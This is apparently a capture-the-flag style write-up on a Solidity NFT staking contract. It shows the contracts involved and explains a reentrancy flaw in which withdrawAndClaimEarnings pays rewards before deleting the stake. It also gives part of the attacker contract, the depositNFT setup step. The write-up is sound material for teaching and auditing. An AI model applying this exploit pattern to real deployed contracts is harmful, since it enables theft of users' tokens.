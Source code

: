 `RewardToken`: This is an ERC20 token contract with a maximum cap of 1000 tokens. At the start, it mints 100 tokens to the depositor.

```solidity
contract RewardToken is ERC20Capped {
    constructor(address depositor) ERC20("Token", "TK") ERC20Capped(1000e18) {
        ERC20._mint(depositor, 100e18);
    }
}
```

`NftToStake`: This is an ERC721 token contract which mints an NFT token to the attacker.

```solidity
contract NftToStake is ERC721 {
    constructor(address attacker) ERC721("NFT", "NFT") {
        _mint(attacker, 99);
    }
}
```

`Depositoor`: This is the contract that allows for staking NFTs. Users who stake their NFTs can earn rewards over time."

```solidity
contract Depositoor is IERC721Receiver {
    IERC721 public nft;
    IERC20 public rewardToken;
    uint256 public constant REWARD_RATE = 10e18 / uint256(1 days);
    // ...
}
```

# Vulnerability

The `Depositoor` contract has a significant vulnerability within its `withdrawAndClaimEarnings` function. This function first issues the reward tokens to the staker. Afterwards, it calls the `safeTransferFrom` function to return the staked NFT. Finally, it deletes the record of the staker's stake.

```solidity
function withdrawAndClaimEarnings(uint256 _tokenId) public {
    // Check if the tokenId provided by the caller matches the tokenId staked
    // by the sender, and if it is not 0 (indicating that a token has been staked).
    require(stakes[msg.sender].tokenId == _tokenId && _tokenId != 0, "not your NFT");

    // Call the payout function to calculate the amount of reward tokens
    // to distribute based on the length of time the NFT has been staked.
    payout(msg.sender);

    // Here's where the reentrancy vulnerability happens:
    // This call to safeTransferFrom can trigger arbitrary code execution
    // in the NFT contract (if it's maliciously crafted), allowing the caller
    // to reenter the function before stakes[msg.sender] is deleted.
    nft.safeTransferFrom(address(this), msg.sender, _tokenId);

    // Delete the stake record of the sender. But if a reentrancy attack happened,
    // the attacker may have already withdrawn their earnings twice!
    delete stakes[msg.sender];
}

```

The crucial issue arises because `safeTransferFrom` can potentially execute arbitrary code, which might end up triggering the `onERC721Received` function on the attacker's contract. As `safeTransferFrom` is invoked before the stake record is deleted, this opens up an opportunity for a reentrancy attack."

# Exploit

The attacker uses the depositNFT function to stake their NFT in the Depositoor contract.

```solidity
function depositNFT(
    address _nftToStake,
    address _stakingContract,
    address _rewardTokenContract
) external {
    // Initialize contract addresses for interaction.
    // This sets up the staking contract and the NFT to be staked for the exploit.
    stakingContract = Depositoor(_stakingContract);
    nftToStake = IERC721(_nftToStake);
    rewardTokenContract = IERC20(_rewardTokenContract);

    // The attacker contract approves the staking contract to move the attacker's NFT.
    // The approval is given for a specific tokenID, which will be used later for the reentrancy attack.
    nftToStake.approve(address(stakingContract), tokenId);

    // Transfer the approved NFT to the staking contract.
    // This action sets up the stage for the reentrancy attack as it stakes the NFT in the staking contract.
    // The NFT now resides in the staking contract and is ready to be "unstaked" with a reentrancy attack to drain tokens.
    nftToStake.safeTransferFrom(
        address(this),
        address(stakingContract),
        tokenId
    );
}
```

This function's purpose is to set up the conditions necessary for the reentrancy exploit to work. It stakes the NFT into the `Depositoor` contract, making it ready for the subsequent call to `withdrawAndClaimEarnings`.
